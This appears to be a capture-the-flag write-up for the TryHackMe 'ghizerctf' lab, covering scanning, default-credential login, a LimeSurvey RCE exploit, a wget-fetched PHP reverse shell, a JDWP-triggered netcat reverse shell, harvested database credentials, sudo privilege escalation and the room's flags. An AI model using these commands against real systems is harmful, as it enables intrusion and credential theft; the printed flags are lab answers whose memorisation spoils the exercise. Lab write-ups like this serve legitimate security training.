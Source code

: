 # ghizerctf

Tryhackme ghizerctf - Linux - Medium

https://tryhackme.com/room/ghizerctf

## Nmap
```shell
Nmap scan report for 10.10.11.6
Host is up (0.16s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE  VERSION
21/tcp  open  ftp?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, RTSPRequest, X11Probe: 
|     220 Welcome to Anonymous FTP server (vsFTPd 3.0.3)
|     Please login with USER and PASS.
|   Kerberos, NULL, RPCCheck, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|_    220 Welcome to Anonymous FTP server (vsFTPd 3.0.3)
80/tcp  open  http     Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-generator: LimeSurvey http://www.limesurvey.org
|_http-title:         LimeSurvey    
443/tcp open  ssl/http Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Ghizer &#8211; Just another WordPress site
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
| ssl-cert: Subject: commonName=ubuntu
| Not valid before: 2020-07-23T17:27:31
|_Not valid after:  2030-07-21T17:27:31
|_http-generator: WordPress 5.4.2
```

Here we cannot login in FTP with anonymous creds. I also tried to find subdomain using `ffuf -w /usr/share/seclists/Discovery/DNS/namelist.txt -H "Host: FUZZ.ghizer.thm" -u http://ghizer.thm -fs 40931` but didnot find anything.

Now, I tried `gobuster`.

```shell
└──╼ $gobuster dir -u ghizer.thm -w /usr/share/wordlists/dirb/small.txt 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://ghizer.thm
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2023/06/14 19:04:44 Starting gobuster in directory enumeration mode
===============================================================
/admin                (Status: 301) [Size: 308] [--> http://ghizer.thm/admin/]
/application          (Status: 301) [Size: 314] [--> http://ghizer.thm/application/]
/assets               (Status: 301) [Size: 309] [--> http://ghizer.thm/assets/]     
/docs                 (Status: 301) [Size: 307] [--> http://ghizer.thm/docs/]       
/framework            (Status: 301) [Size: 312] [--> http://ghizer.thm/framework/]  
/tests                (Status: 301) [Size: 308] [--> http://ghizer.thm/tests/]      
/tmp                  (Status: 301) [Size: 306] [--> http://ghizer.thm/tmp/]        
/upload               (Status: 301) [Size: 309] [--> http://ghizer.thm/upload/]
```

Now, from `/docs/release_notes.txt` we can check limesurvey version from change logs. Here in this line `Changes from 3.15.8 (build 190130) to 3.15.9 (build 190214) January 14, 2019` we can say it is < 3.16.

After searching that on google, we got exploit.
https://www.exploit-db.com/exploits/46634

But the problem is where do we find username and password...

.

From nmap scan we can see that at port `443` wordpress service is running, therefore, I used `wpscan` in order to ger username and password.

```shell
└──╼ $wpscan --url https://10.10.11.6/  --disable-tls-checks --passwords /usr/share/wordlists/rockyou.txt  --max-threads 100
```

Huh, weird, still found nothing...

After that, I thought of checking default credentials of `LimeSurvey` on `/admin` and guess what it worked.

Username: `admin`
Password: `password`

Now, getting user from this point is a piece of cake as we already have exploit.

Download exploit and run it using `python2`.

```shell
└──╼ $python2 exploit.py http://ghizer.thm admin password
[*] Logging in to LimeSurvey...
[*] Creating a new Survey...
[+] SurveyID: 437327
[*] Uploading a malicious PHAR...
[*] Sending the Payload...
[*] TCPDF Response: <strong>TCPDF ERROR: </strong>[Image] Unable to get the size of the image: phar://./upload/surveys/437327/files/malicious.jpg
[+] Pwned! :)
[+] Getting the shell...
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)


... as we cant navigate between files, we have to upload php reverse shell on server ...
$ wget http://10.8.95.227:8000/php_shell.php -O /var/www/html/limesurvey
$ ls
...
php_shell.php
```

send get request to `http://10.10.11.6/php_shell.php` in order to execute shell.

From `/var/www/html/limesurvey/application/config` we got the config.php file, and from that we got username and password for first task.
```shell
		'db' => array(
			'connectionString' => 'mysql:host=localhost;port=3306;dbname=limedb;',
			'emulatePrepare' => true,
			'username' => 'Anny',
			'password' => 'P4$W0RD!!#S3CUr3!',
			'charset' => 'utf8mb4',
			'tablePrefix' => 'lime_',
		),
```

`Anny:P4$W0RD!!#S3CUr3!`

Haha, there is no way we can bruteforce this password using `wpscan` earlier.

I have tried some ways but can't succeed. But atlast here's how I manage to get user shell.


Step 1: as there is a ghidra service running on port `18001` we will use `chisel` in order to get data from server to out local. How to do that? Here's how.
- On server
    `$ ./chisel client <local_machine_ip>:10000 R:18001:127.0.0.1:18001`
    
- On local
    `$./chisel server -p 10000 --reverse`

- On local
```
> classes
... you will get list of classes
> stop in org.apache.logging.log4j.core.util.WatchManager$WatchRunnable.run()
... after some seconds, we will get shell and then start netcat on port 9999
> print new java.lang.Runtime().exec("nc <local_machine_ip> 9999 -e /bin/sh")
```

Our netcat will listen to request and will give the user shell.

```
└──╼ $nc -lvnp 9999
listening on [any] 9999 ...
connect to [10.8.95.227] from (UNKNOWN) [10.10.11.6] 41024
id
uid=1000(veronica) gid=1000(veronica) groups=1000(veronica),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
cd /home
ls
veronica
cd veronica
cat user.txt
THM{EB0C770CCEE1FD73204F954493B1B6C5E7155B177812AAB47EFB67D34B37EBD3}
```

# root flag

```shell
veronica@ubuntu:~$ sudo -l
sudo -l
Matching Defaults entries for veronica on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User veronica may run the following commands on ubuntu:
    (ALL : ALL) ALL
    (root : root) NOPASSWD: /usr/bin/python3.5 /home/veronica/base.py
```

```
veronica@ubuntu:~$ cat base.py
cat base.py
import base64

hijackme = base64.b64encode(b'tryhackme is the best')
print(hijackme)

veronica@ubuntu:~$ echo "hello" > base.py
echo "hello" > base.py
bash: base.py: Permission denied
```

We can't edit `base.py` but we can delete it.

```shell
veronica@ubuntu:~$ ls -al | grep base
ls -al | grep base
-rw-r--r--  1 root     root       86 Jul 23  2020 base.py
veronica@ubuntu:~$ rm base.py
rm base.py
rm: remove write-protected regular file 'base.py'? y
y
```

Now make a new file with shell as it is going to execute with root.

`echo 'import pty; pty.spawn("/bin/sh")' > /home/veronica/base.py `

```shell
veronica@ubuntu:~$ sudo -l
sudo -l
Matching Defaults entries for veronica on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User veronica may run the following commands on ubuntu:
    (ALL : ALL) ALL
    (root : root) NOPASSWD: /usr/bin/python3.5 /home/veronica/base.py
veronica@ubuntu:~$ sudo /usr/bin/python3.5 /home/veronica/base.py
sudo /usr/bin/python3.5 /home/veronica/base.py
# whoami
whoami
root
# cat /root/root.txt
cat /root/root.txt
THM{02EAD328400C51E9AEA6A5DB8DE8DD499E10E975741B959F09BFCF077E11A1D9}
```
